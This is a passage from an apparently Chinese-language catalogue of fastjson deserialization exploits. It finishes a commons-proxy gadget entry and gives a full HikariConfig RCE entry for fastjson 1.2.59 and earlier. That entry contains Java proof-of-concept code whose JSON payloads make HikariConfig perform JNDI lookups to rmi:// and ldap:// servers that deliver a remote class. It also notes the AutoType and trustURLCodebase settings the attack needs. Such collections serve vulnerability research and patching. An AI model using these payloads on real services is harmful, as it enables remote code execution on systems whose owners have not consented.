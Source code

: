 ### 影响版本

- fastjson <= 1.2.61

### 依赖

```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-proxy</artifactId>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/CommonsProxyPoc.java

## HikariConfig RCE（<=1.2.59）

fastjson <= 1.2.59 RCE，需要开启 AutoType

### Payload

```java
public static void main(String[] args) {
    //TODO 使用rmi server模式时，jdk版本高的需要开启URLCodebase trust
//    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
    ParserConfig.global.setAutoTypeSupport(true);
//    String payload = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"rmi://localhost:43657/Calc\"}";
//    String payload = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"healthCheckRegistry\":\"rmi://localhost:43657/Calc\"}";
    String payload = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:43658/Calc\"}";
    String payload2 = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"healthCheckRegistry\":\"ldap://localhost:43658/Calc\"}";
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.59

### 依赖

```java
<dependency>
    <groupId>com.zaxxer</groupId>
    <artifactId>HikariCP</artifactId>
</dependency>
```
